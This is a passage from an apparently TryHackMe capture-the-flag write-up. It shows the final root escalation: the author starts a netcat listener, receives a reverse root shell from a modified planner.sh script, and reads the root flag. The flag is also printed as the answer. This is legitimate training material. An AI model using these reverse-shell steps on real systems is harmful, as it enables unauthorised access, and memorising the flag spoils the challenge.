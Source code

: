 ![[9 7.png]]
- The IP address is our `tun0` address.
![[10 6.png]]
- After saving the changes, we can listen on port `9998` and  run the `planner.sh` file.
```
$ nc -lvnp 9998
listening on [any] 9998 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.244.57] 43162
sh: 0: can't access tty; job control turned off
#
```
- Let's get the root flag.
```
# ls
root.txt
# cat root.txt  
THM{f963aaa6a430f210222158ae15c3d76d}
```
## Answer
```
THM{f963aaa6a430f210222158ae15c3d76d}
```